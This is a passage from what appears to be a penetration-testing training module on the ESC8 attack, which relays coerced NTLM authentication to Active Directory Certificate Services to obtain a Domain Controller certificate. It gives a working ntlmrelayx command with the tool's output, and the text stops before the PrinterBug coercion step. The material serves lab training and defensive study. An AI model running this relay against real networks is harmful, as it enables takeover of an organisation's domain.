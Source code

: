 
# Description

Following up on the PKI-related attack scenario from the previous section, another attack we can abuse is relaying to `ADCS` to obtain a certificate, a technique known as `ESC8`.

Previously, we used `PrinterBug` and `Coercer` to make (or force) computers to connect to any other computer. In this scenario, we will utilize the `PrinterBug,` and with the received reverse connection, we will relay to ADCS to obtain a certificate for the machine we coerced.

---

# Attack

We begin by configuring `NTLMRelayx` to forward incoming connections to the HTTP endpoint of our Certificate Authority. As part of this configuration, we will specify that we want to obtain a certificate for the Domain Controller (a default template in AD, which Domain Controllers use for client authentication). The `--adcs` switch makes `NTLMRelayx` parse and displays the certificate if one is received:

Attack

```shell-session
Discordio@htb[/htb]$ impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
```

![Impacket ntlmrelayx command relays to 172.16.18.15 using DomainController template with SMB2 and ADCS support.](https://academy.hackthebox.com/storage/modules/176/A14/ntlmrelaystart.png)

Now we need to get the Domain Controller to connect to us. We’ll use the `Print Spooler` bug and force a reverse connection to us (as we previously did in a previous lab). In this case, we are forcing DC2 to connect to the Kali machine while we have `NTLMRelayx` listening in another terminal:
